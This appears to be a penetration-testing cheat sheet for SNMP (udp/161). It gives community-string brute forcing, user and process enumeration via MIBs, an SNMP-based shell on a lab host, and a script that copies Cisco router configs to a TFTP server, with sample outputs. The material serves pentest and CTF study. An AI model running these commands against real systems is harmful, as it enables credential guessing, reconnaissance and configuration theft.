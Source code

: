 ```yaml
---
description: udp/161
---
```


# 161 - SNMP

### Tools

```
snmpget -v 1 -c public IP version
snmpbulkwalk -v 2 -c public IP
```

```
apt-get install snmp
snmpwalk -v 1 -c public IP
snmpwalk -c public -v2c -On IP
```

```
sudo apt install snmpenum
snmpenum 10.129.137.66 public linux.txt
```

### SNMP Config

Snmp configuration file is located by default in:

`/etc/snmp/snmpd.conf`

and it includes the passwords for the community and private string

### Brute force community string

#### onesixtyone

{% code overflow="wrap" %}
```
./onesixtyone -c /opt/SecLists/Discovery/SNMP/common-snmp-community-strings.txt <IP> 

Scanning 1 hosts, 122 communities 
10.10.10.92 [public] Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 
10.10.10.92 [public] Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64
```
{% endcode %}

#### NMAP

```
nmap -p 161 --script snmp-brute <target>
```

#### Metasploit

{% code overflow="wrap" %}
```
msfconsole -qx 'use auxiliary/scanner/snmp/snmp_login; set RHOSTS file:scope.txt; run'
```
{% endcode %}

### **Metasploit - Enumerate users**

```
msf5 auxiliary(scanner/snmp/snmp_enumusers) > show options  
Module options (auxiliary/scanner/snmp/snmp_enumusers): 
   Name       Current Setting  Required  Description 
   ----       ---------------  --------  ----------- 
   COMMUNITY  public           yes       SNMP Community String 
   RETRIES    1                yes       SNMP Retries 
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax '
file:<path>
' 
   RPORT      161              yes       The target port (UDP) 
   THREADS    1                yes       The number of concurrent threads (max one per host) 
   TIMEOUT    1                yes       SNMP Timeout 
   VERSION    1                yes       SNMP Version <1/2c> 
msf5 auxiliary(scanner/snmp/snmp_enumusers) > set rhosts 192.168.0.41 
rhosts => 192.168.0.41 
msf5 auxiliary(scanner/snmp/snmp_enumusers) > run 
[+] 192.168.0.41:161 Found 6 users: daemon, jack, noaccess, nobody, root, smmsp 
[*] Scanned 1 of 1 hosts (100% complete) 
[*] Auxiliary module execution completed
```

### SNMP Shell

Using Net-SNMP functionality we can gain shell on a SNMP server

Link: [https://github.com/mxrch/snmp-shell](https://github.com/mxrch/snmp-shell)

```
root@kali# rlwrap python3 /opt/snmp-shell/shell.py 10.10.10.195 -c SuP3RPrivCom90

Debian-snmp@intense:/$ id
uid=111(Debian-snmp) gid=113(Debian-snmp) groups=113(Debian-snmp)
```

### SNMP IPv6 Enumeration

[Enyx](broken-reference/) is an enumerator tool about grabbing the possible IPV6 of a machine through the snmp protocol.

### SNMPv3

Identify SNMPv3 servers with nmap:

`nmap -sV -p 161 --script=snmp-info TARGET-SUBNET`

Rory McCune’s snmpwalk wrapper script helps automate the username enumeration process for SNMPv3:

```
apt-get install snmp snmp-mibs-downloader 
wget https://raw.githubusercontent.com/raesene/TestingScripts/master/snmpv3enum.rb
```

### SNMP Enumeration - Windows tool

Getif is a free multi-functional Windows GUI based Network Tool written by Philippe Simonet. It is amongst other things, an excellent SNMP tool that allows you to collect and graph information from SNMP devices.

Download:

[http://www.wtcs.org/snmp4tpc/getif.htm](http://www.wtcs.org/snmp4tpc/getif.htm)

Install and set compatability as Windows XP SP2

Press STRAT once you put the IP and public commuinty

Download the SNMP4tPC Getif MIB collection as well.

![](../.gitbook/assets/GetImage.gif)

For each tab press 'start' to get the information

`Error: If you getting 'DllRegisterServer (msflxgrd) failed' error` – run the software as administrator

### **Common Mibs**

**interfaces**\
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.2.2`

**Windows User Accounts**\
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.25`

**Windows Running Programs**\
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.4.2.1.2`

**Windows Hostname**\
`snmpwalk -c public -v1 $TARGET .1.3.6.1.2.1.1.5`

**Windows Share Information**\
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.3.1.1`

**Windows Share Information**\
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.27`

**Windows TCP Ports**\
`snmpwalk -c public -v1 $TARGET4 1.3.6.1.2.1.6.13.1.3`

**Software Name**\
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.6.3.1.2`

**SysLocation**\
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.1.6`

### Solaris MIBS

Enumerate users on solaris:

`use auxiliary/scanner/snmp/snmp_enumusers`

### Download Cisco Conf

Copies configuration files from Cisco devices running SNMP.

**Usage**:

```
root@kali:~# copy-router-config.pl 
###################################################### 
# Copy Cisco Router config  - Using SNMP 
# Hacked up by muts - muts@offensive-security.com 
####################################################### 
Usage : ./copy-copy-config.pl <router-ip> <tftp-serverip> <community> 
Make sure a TFTP server is set up, preferably running from /tmp ! 
```

**Example:**

`root@kali:~# copy-router-config.pl 192.168.1.1 192.168.1.15 private`
